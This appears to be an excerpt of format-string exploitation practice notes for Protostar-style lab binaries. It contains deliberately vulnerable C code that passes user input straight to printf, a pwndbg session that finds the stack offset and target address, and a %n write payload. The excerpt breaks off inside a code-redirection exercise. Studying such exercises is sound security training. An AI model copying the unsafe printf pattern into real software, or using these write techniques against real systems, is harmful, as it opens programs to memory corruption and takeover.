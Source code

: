 ```bash
0xffff670c:     0xcafebabe
pwndbg> c
Continuing.
Good job !
```

# Practice

## precision write

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -static -z execstack -z norelro -fno-stack-protector -o format2 format2.c -m32

void vuln()
{
  int target = 0;
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target !\n");
  } 
}

int main(int argc, char **argv)
{
  vuln();
}
```

```bash
$ ./format2
AAAA%7$p
AAAA0x41414141 # find out the offset = 7
pwndbg> x/wx $ebp - 0xc 
0xffff66bc:     0x00000000 # addr of target
```

> \xbc\x66\xff\xff%60x%7$n
> 

## Code Excution Redirect

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -z execstack -z norelro -no-pie -fno-stack-protector -o format4 format4.c -m32
// Ref. https://exploit-exercises.com/protostar/format4/

void hello()
{
  printf("Code execution redirected !\n");
  _exit(1);
```